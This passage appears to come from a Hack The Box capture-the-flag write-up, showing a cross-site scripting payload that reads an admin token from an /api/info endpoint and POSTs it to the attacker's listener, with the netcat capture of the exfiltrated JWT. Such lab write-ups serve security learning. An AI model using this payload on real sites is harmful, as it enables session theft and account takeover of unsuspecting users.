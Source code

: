 ```
10.10.11.43 - - [24/Mar/2025 16:18:50] code 404, message File not found
10.10.11.43 - - [24/Mar/2025 16:18:50] "GET /xss HTTP/1.1" 404 -

```

That means that my JavaScript was executed on their machine!

#### Recover Token

During enumeration, I [noted](#tech-stack) that the cookie was `HttpOnly`, which means I can’t use `document.cookie` to get the admin’s cookie. I also [noted](#apiinfo) the `/api/info` endpoint which leaks the current user’s token. I’ll write a payload to fetch this.

```

<img src="x" onerror="fetch('/api/info').then(resp => resp.text()).then(body => { fetch('http://10.10.14.6/exfil', { method: 'POST', body: body});})" />

```

This will get `/api/info` from the current site, and then send the response in a POST request back to me, much like I did last week in [Alert](/2025/03/22/htb-alert.html#arbitrary-file-read). I’ll just run `nc` on 80 to catch the response. A couple seconds after sending this I’ll get this:

```

oxdf@hacky$ nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.43 59836
POST /exfil HTTP/1.1
Host: 10.10.14.6
Connection: keep-alive
Content-Length: 316
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.10.11.43
Referer: http://10.10.11.43/
Accept-Encoding: gzip, deflate

{"role":"admin","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjgzNTQyNywianRpIjoiYTE0MDE5NTQtYzBmZi00N2U5LWJkZTItYjE4MDMyZjdlM2RhIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQyODM1NDI3LCJleHAiOjE3NDM0NDAyMjd9.NaU29rgOFPgeaCIWaf7XtBoTCHsuVSNUTmw9HSYmwrY","username":"admin"}

```

#### Site

I’ll set this as my cookie in the browser dev tools and reload the main page:

![image-20250324132436344](/img/image-20250324132436344.png)

